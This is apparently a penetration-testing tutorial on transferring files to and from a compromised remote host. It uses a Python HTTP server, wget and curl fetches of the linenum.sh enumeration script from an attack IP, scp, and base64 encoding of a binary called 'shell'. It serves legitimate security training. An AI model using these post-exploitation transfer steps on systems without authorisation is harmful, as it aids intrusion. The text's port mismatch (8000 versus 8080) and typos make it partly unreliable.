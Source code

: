 
During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While metasploit shell allow us to use the Upload command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

### Using wget
There are many ways to accomplish this, one method is via Python HTTP server on our machine and then using wget or cURL to download the file on the remote host. First, we go into the directory that contains the file we need to transger and run a Python HTTP server in it:

```
cd /tmp
python3 -m http.server 8000
```
Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```
wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```
Note that we used out IP 10.10.14.1 and the port our Python runs on 8080. If the remote server does not have wget, we can use cURL to download the file:

```
curl http://10.10.14.1:8080/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
Note that we used -o flag to specify the output file name. 

### Using SCP
Another method to transfer file would be using SCP, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```
scp linenum.sh user@remotehost:/tmp/linenum.sh

```
Note that we specified the local file name after scp, and the remote directly will be saved to after the :.

### Using Base 64

In some cases, we might not be able to transfer the file. For example, the remote host may ahve firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the string on the remote server and decode it. If we wanted to transfer a binary file called shell, we can base64 encode it as follows:

```
base64 shell -w 0
```

### Validating File Transfers

To validate the format of a file, we can run the file command on it
```
file shell

shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

```
As we can see, when we run the file command on the shell file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. We can run md5sun on it.

```
md5sum shell
```
Both value should be same on the local and the remote host. 
